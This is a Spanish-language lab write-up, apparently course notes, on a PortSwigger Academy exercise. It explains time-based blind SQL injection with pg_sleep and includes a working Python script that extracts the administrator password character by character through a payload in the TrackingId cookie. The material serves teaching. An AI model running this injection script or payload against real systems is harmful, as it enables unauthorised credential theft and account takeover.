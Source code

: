 En esta clase damos continuidad al proceso de explotación visto anteriormente, en el que empleamos una inyección SQL ciega con retardos temporales (**pg_sleep**) para filtrar información sensible sin respuestas visibles del servidor.

Partimos desde el punto en el que ya conocemos la longitud de la contraseña del usuario ‘**administrator**‘. Ahora nos centramos en automatizar por completo la recuperación del valor de cada carácter que la compone, utilizando Burp Intruder para iterar de forma sistemática por todas las posiciones y valores posibles (letras minúsculas y números).

Se configura un ataque por cada posición de la contraseña, adaptando la consulta con ‘**SUBSTRING(password, n, 1)**‘ y analizando el retardo en la respuesta para identificar el carácter correcto. Cada vez que se produce una demora significativa (≈10 segundos), se confirma que el carácter probado es el correcto.

Repetimos el proceso hasta reconstruir completamente la contraseña, cerrando el ejercicio con el acceso exitoso a la cuenta del administrador.

Script
![[Pasted image 20250704124641.png]]
![[Pasted image 20250704125451.png]]
Script

#!/usr/bin/env python3 
from pwn import *
from termcolor import colored

import requests
import signal
import sys
import string

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] Saliendo...\n", 'red')) 
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():

    password = ""

    p1.status("Iniciando ataque de fuerza bruta") 
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"test'%3b select case when(username='administrator' and substring(password, {position},1)='{character}') then pg_sleep(3) else pg_sleep(0) end from users-- -",
                'session': "0Vj8dxoJmIzQF8MyDtjXuHORoz7NTXNZ"
            }

            p1.status(cookies["TrackingId"])

            time_start = time.time()

            r = requests.get("https://0a3e00d004218e53801a35c3000300be.web-security-academy.net", cookies=cookies)
            
            time_end = time.time()

            if time_end - time_start > 3:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeSQLI()

![[Pasted image 20250704131955.png]]
En mysql
![[Pasted image 20250704132254.png]]
